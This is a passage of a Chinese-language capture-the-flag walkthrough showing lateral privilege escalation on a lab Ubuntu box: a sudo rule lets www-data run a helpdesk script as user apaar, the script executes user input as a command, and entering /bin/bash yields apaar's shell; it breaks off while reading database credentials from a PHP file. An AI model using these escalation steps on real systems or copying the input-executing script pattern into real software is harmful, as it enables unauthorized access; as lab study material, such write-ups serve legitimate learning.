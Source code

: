     env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

查看这个脚本的内容和权限
```
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
www-data@ubuntu:/var/www/html/secret$ ls -alh /home/apaar/.helpline.sh
ls -alh /home/apaar/.helpline.sh
-rwxrwxr-x 1 apaar apaar 286 Oct  4  2020 /home/apaar/.helpline.sh
```

此文件对于本账户不可写，因此不可以直接把shell写进bash
但是留意代码内容，它分别接受两个参数，第一个```person```没有什么作用，第二个```msg```，我们可以看见是作为一个命令直接执行了，因此我们可以加以利用


# 横向提权到apaar
我们把msg命令赋值为：```/bin/bash```，拿到apaar的shell
```
www-data@ubuntu:/var/www/html/secret$ sudo -u apaar  /home/apaar/.helpline.sh 
<ml/secret$ sudo -u apaar  /home/apaar/.helpline.sh 

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: max
max
Hello user! I am max,  Please enter your message: /bin/bash
/bin/bash
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
whoami
whoami
apaar
```

在apaar的home目录拿到user flag

# 横向提权到Anurodh

我们在```/var/www/files/index.php```找到数据库登录信息
```
apaar@ubuntu:/var/www/files$ cat index.php
cat index.php
<html>
<body>
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();